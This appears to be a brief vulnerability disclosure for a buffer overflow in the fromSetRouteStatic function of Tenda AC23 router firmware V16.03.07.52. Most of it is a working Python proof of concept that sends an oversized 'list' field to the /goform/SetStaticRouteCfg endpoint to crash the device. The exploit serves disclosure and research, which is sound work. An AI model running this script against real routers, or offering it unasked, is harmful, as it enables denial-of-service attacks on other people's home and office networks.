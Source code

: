 A buffer overflow vulnerability in Tenda AC23 V16.03.07.52 occurs because the fromSetRouteStatic function does not check the length of input data, which can be exploited by attackers to launch a denial of service attack.

<img width="415" height="165" alt="image" src="https://github.com/user-attachments/assets/5710aaca-6de9-4e19-ad92-e05f157c34d6" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetStaticRouteCfg"

cookie = {"Cookie":"password=12345"}
data = {"list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
